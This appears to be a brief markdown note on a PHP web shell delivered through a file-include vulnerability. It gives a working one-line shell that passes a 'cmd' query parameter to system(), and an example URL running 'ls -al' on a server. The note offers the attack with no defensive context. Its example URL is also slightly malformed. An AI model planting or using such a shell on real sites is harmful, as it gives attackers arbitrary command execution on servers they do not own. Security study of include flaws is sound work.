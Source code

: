 # php webshell by include
### 1) summary
Executes the file passed as a parameter of the include function.

When the php file is delivered, it is executed.

### 2) code
When the following code is executed due to the include function, 
```php
<?php
    echo system($_GET["cmd"]);
?>
```
you can execute a Linux command by passing cmd as a query parameter.
```
https://example.com?file=asfdbwr?cmd=ls -al;
```